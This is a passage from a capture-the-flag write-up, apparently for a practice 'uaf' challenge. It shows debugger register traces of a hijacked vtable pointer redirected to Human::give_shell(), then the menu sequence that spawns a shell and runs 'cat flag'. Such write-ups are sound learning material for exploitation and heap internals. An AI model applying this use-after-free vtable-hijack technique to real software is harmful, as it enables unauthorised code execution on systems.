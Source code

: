 So - the bit that looks to be breaking us is the add of 8 to RAX. If we subtract that from our payload's address, and then retry, we get:

```python
... s ...
RAX: 0x249ac50 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
RBX: 0x249aca0 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
... s ...
RAX: 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
RBX: 0x249aca0 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]        # 0x7f3fe2273f18)
... s ...
RAX: 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
RBX: 0x249aca0 --> 0x401568 --> 0x4015d0 --> 0x602390 --> 0x7f3fe1f86260 (<_ZN10__cxxabiv120__si_class_type_infoD2Ev>:	mov    rax,QWORD PTR [rip+0x2edcb1]
... s ...
RDX: 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
=> 0x400fe2 <main+286>:	call   rdx
... s ...
0x000000000040117a in Human::give_shell() ()
```

Sweet, we're in! Now we can just `cat flag` and be done.

```python
./uaf 8 /tmp/z3n0
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
<_______________>
$
```

One thing to note: I did notice that it only works if you press the after option twice. Doing so only once seg faults. I imagine this is because we have two Human objects, so we need to be able to overwrite both? I spent a bit of time looking around for good explanations of how the Heap's memory managment works, and came across [this paper, "Understanding the heap by breaking it"](https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf).
